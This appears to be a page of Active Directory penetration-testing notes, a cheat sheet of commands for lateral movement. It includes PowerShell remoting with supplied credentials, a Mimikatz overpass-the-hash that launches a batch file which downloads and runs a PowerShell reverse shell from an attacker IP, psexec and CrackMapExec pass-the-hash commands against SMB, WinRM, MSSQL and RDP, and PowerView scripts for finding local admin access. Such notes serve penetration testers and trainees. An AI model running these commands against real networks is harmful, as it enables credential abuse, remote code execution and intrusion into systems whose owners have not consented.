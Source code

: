 ### Double hop issue
#### Pssession in pssession
```
Enter-PSSession -ComputerName <NAME>
$sess = New-PSSession <SERVER> -Credential <DOMAIN>\<USER>
Invoke-Command -Scriptblock {hostname; whoami;} -Session $sess
```

#### Overpass the hash mimikatz reverse shell
```
powercat -l -v -p 444 -t 5000

$sess = New-PSSession <SERVER> 
#.ps1 is a reverse shell back to the attacker machine, make sure you run it as the user you want
$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''))'; Out-File -Encoding Ascii -InputObject $Contents -FilePath reverse.bat
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:C:\reverse.bat"'
```

#### Psexec then pssession
- https://github.com/maaaaz/impacket-examples-windows
```
.\psexec_windows.exe <DOMAIN>/<USER>@<TARGET FQDN> -hashes :<NTLM HASH>
powershell.exe
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $password)
$sess = new-pssession -credential $creds -computername <TARGET FQDN>
enter-pssession $sess
```

## Check Local Admin Access
#### Crackmapexec
```
cme smb <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme winrm <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme mssql <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
cme rdp <COMPUTERNAME> -d <DOMAIN> -u <USER> -H <NTLM HASH>
```

#### Powerview
```
Find-LocalAdminAccess -Verbose
```

### Other scripts
```
. ./Find-WMILocalAdminAccess.ps1
Find-WMILocalAdminAccess
```

```
. ./Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
